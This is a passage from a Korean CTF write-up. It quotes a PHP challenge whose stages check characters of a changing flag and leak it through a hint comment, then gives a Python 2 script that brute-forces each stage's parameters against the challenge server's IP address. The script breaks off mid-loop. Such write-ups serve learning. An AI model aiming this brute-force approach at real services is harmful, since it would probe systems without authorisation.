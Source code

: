 ```php
if ($flag[0] != $_GET['Q']) die('stage13');
if ($flag[strlen($flag)-1] != $_GET['W']) die('stage14<!--Hint: '.$flag);
if ($flag[1] == $_GET['E']) die('stage15');
if ($flag[0] == $_GET['Q'] && 
    $flag[strlen($flag)-1] == $_GET['W'] &&
    $flag[strlen($flag)-3] == $_GET['E'])
    die("Flag: $rflag");
else
    die("final stage! but game is over, and you lose! :p<!-- $flag");
```

소스코드를 살펴보면 각 스테이지마다 `$flag`의 특정 위치의 값을 맞춰야 해당 스테이지를 통과할 수 있게 되어있다.  

그런데 3~5개의 스테이지가 지날 때 마다 `$flag`의 값은 이 전의 `$flag`의 값에서 랜덤한 위치부터 랜덤한 갯수의 문자를 잘라 다시 `$flag`에 넣는다. 때문에 모든 스테이지를 통과하더라도 모든 `$flag`의 값을 읽을 수 없다.  

그래서 그냥 중간에 보면 `Hint`라고 현재 `$flag`에 저장된 값을 출력 해 주는데, 여기에서 전체 flag의 값을 최대한 많이 출력 해 주길 바라면서 여러 번 실행시켰다.  

소스코드는 아래와 같다.  

```python
import urllib2
import urllib
import requests

a = ""
length = 0

url = "http://167.179.71.234/pox/?"

print "[+] Start"

for i in range(48, 127):
        try:
                query = url + "a=" + chr(i)
                r = requests.post(query)
        except:
                print "[-] Error occur"
                continue
        if '</code><hr>stage2' in r.text and '</code><hr>plz start' not in r.text:
                a += chr(i)
b = ""
for i in range(48, 127):
        try:
                query = url + "a=" + a + "&b=" + chr(i)
                r = requests.post(query)
        except:
                continue
        if '</code><hr>stage2' not in r.text and '</code><hr>stage1' not in r.text:
                b += chr(i)

c_2 = ""
for i in range(48, 127):
        try:
                query = url + "a=" + a + "&b=" + b + "&c=" + chr(i)
                r = requests.post(query)
        except:
                continue
        if '</code><hr>stage3' in r.text:
                c_2 += chr(i)
c_3 = ""
for i in range(48, 127):
        try:
                query = url + "a=" + a + "&b=" + b + "&c=" + chr(i)
```